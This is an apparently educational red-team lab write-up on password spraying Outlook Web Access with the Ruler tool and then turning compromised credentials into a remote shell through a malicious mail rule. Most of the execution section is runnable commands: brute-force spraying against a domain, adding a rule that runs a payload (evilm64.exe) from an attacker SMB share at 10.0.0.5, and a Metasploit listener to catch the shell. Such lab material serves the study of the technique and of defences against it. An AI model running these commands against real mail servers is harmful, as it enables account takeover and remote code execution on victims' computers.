

# Password Spraying Outlook Web Access: Remote Shell


Work In Progress


## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is an attacking technique and a form of password brute-forcing. In password spraying, an attacker cycles through a list of possible usernames \(found using OSINT techniques against a target company or other means\) with a couple of most common passwords. In comparison, a traditional bruteforce works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| ben | Winter2018 |
| ... | Winter2018 |
| john | December2018! |
| ben | December2018! |
| ... | December2018! |

Standard password bruteforcing could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| john | Winter2018! |
| john | Password1 |
| ben | Winter2018 |
| ben | Winter2018! |
| ben | Password1 |

## Execution

### Password Spraying



```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```




The above shows that password spray was successful against the user `spotless` with a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your /etc/hosts to point to your Exchange server:


### Getting a Shell via Malicious Email Rule

If password spray against Exchange server was successful and you have a set of compromised credentials, you can leverage Ruler to create a malicious email rule to gain remote code execution on the host that checks the email for which you have compromised the credentials during your spray.

The way it works is:

* 
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```


```text
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location "c:/windows/system32/calc.exe" --trigger "popashell" --name maliciousrule
```


```csharp
smbserver.py tools /root/tools/
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit

```

Delete malicious email rule:

```text
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```




